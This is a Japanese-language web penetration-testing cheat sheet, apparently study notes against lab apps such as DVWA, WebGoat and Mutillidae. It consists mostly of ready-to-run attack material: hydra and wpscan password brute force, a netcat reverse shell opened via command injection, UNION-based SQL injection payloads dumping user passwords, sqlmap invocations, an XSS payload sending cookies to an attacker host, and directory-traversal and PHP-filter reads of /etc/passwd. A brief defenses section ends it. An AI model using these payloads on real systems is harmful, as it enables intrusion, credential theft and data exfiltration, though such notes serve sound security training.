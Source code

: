 # Web アプリケーション侵入

## Web ログイン画面ブルートフォース

### hydra

https://github.com/vanhauser-thc/thc-hydra

```shell
hydra <targetIP> http-post-form "/owaspbricks/login-3/index.php:username=^USER^&password=^PASS^&Login=submit:Wrong user name or password." -L http_default_users.txt -P http_default_pass.txt
```

### WordPress 専用のセキュリティスキャナ

```shell
wpscan --url 192.168.11.16 --passwords password.txt --usernames elliot
```

## コマンドインジェクション（netcat でシェルを起動）

### １．攻撃マシンで Listen

```shell
nc -lvp <port>
```

### ２．コマンドインジェクションで攻撃マシンに接続

リバースシェルの種類は無数に存在する  
https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux

```shell
nc.traditional -e /bin/bash <ip> <port>
```

### 回数指定で ping を実行する（コマンドインジェクションのとき永久に ping し続けないように）

```shell
ping <ip> -c 3
```

## SQL インジェクション

information_schema を使ったスキーマ取得（SQL 標準だが Oracle は構造が異なる。SQLite には機能がない）

### DB 名

```sql
1' union select schema_name, 2 from information_schema.schemata #
```

### テーブル名

```sql
1' union select table_name, 2 from information_schema.tables where TABLE_SCHEMA <> 'information_schema' #
```

### 特定テーブルの列名

```sql
1' union select column_name, column_type from information_schema.columns where table_name = 'users' #
```

### 列数が限られている場合に、多くの情報を出力する例

```sql
1' union select concat(user_id, '-', first_name, ' ', last_name), concat(user, ':', password) from dvwa.users #
```

## SQLmap

### URL にパラメータが含まれる例

```shell
sqlmap -u "http://192.168.11.12/mutillidae/index.php?page=user-info.php&username=aaa&password=bbb&user-info-php-submit-button=View+Account+Details" -p username --schema
```

### POST データにパラメータが含まれる例

```shell
sqlmap -u "http://192.168.11.12/WebGoat/attack?Screen=71&menu=1100" \
--method POST \
--data "employee_id=101&password=aaa&action=Login" \
--cookie "acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada; PHPSESSID=iaml1rtui5cfcjvsrc504g0t6; JSESSIONID=FEA4D26D5A2B7C42D53D2216D29D7B3" \
--header "Authorization: Basic d2ViZ29hdDp3WJnb2F0" \
--level 1 --risk 1 \
-p "password"
```

## XSS

### Cookie を外部に送信する例

```js
<script>document.write('<img src="http://<attacker ip>:8888/' + document.cookie + '">')</script>
```

### 対策

- 全てのユーザー入力をエンコードする（最重要）
- Cookie 作成時、HttpOnly 属性を付ければ、js から Cookie にアクセスできなくなる
- HTTP ヘッダーの CSP 設定で、img の外部取得を禁止できる

```http
Content-Security-Policy: img-src 'self';
```

### 確認用に簡易 Web サーバーを起動

```shell
python -m http.server 8888
```

### HTML コードの変更

```html
<img src="x" onerror="document.body.innerHTML='<h1>Hacked</h1>'" />
```

## xsser

XSS 脆弱性を自動的に検出するツール  
https://github.com/epsylon/xsser

```shell
xsser -u http://192.168.11.12 -g /bodgeit/search.jsp?q=XSS
```

## URL パラメータを狙った攻撃

https://book.hacktricks.xyz/pentesting-web/file-inclusion

### ディレクトリトラバーサルの脆弱性をスキャンする

"ttp://192.168.11.15/?lang=../../../etc/passwd" のようなパターンを総当たり的に試す

```shell
dotdotpwn -m http-url -u http://192.168.11.15/?lang=TRAVERSAL -f /etc/passwd -k "root" -d 5 -t 50
```

### PHP フィルター

```shell
# index.php を Base64エンコードしたものを出力させようとしている
http://192.168.11.15/?lang=php://filter/convert.base64-encode/resource=index
```

```php
# PHPのコードではこのようにフィルターが使われる
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
```

## セキュリティ視点

- インジェクション系の対策は、ユーザー入力を全て URL エンコードする。これに尽きる。
- Web サーバー上に機密ファイルを置かないこと
- Cookie に HttpOnly 属性を付けたらスクリプトから参照できない
- img の外部取得を禁止するのもセキュリティ的に有効
- ユーザー入力をファイル名（パス）として使う場合は、ディレクトリトラバーサルに注意
